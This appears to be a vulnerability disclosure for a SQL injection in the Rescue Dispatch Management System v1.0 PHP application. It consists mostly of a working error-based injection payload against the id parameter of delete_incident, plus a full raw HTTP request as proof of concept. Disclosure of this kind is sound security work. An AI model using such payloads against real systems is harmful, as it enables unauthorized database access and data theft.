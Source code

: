 # Rescue Dispatch Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File: /rdms/classes/Master.php?f=delete_incident

Vulnerability location: /rdms/classes/Master.php?f=delete_incident, id

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


 ```sql
 POST /rdms/classes/Master.php?f=delete_incident HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/rdms/admin/?page=incidents
Content-Length: 65
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
 ```

![image](https://user-images.githubusercontent.com/54017627/170449901-e3aad09d-d699-46c6-975f-d4d807317454.png)
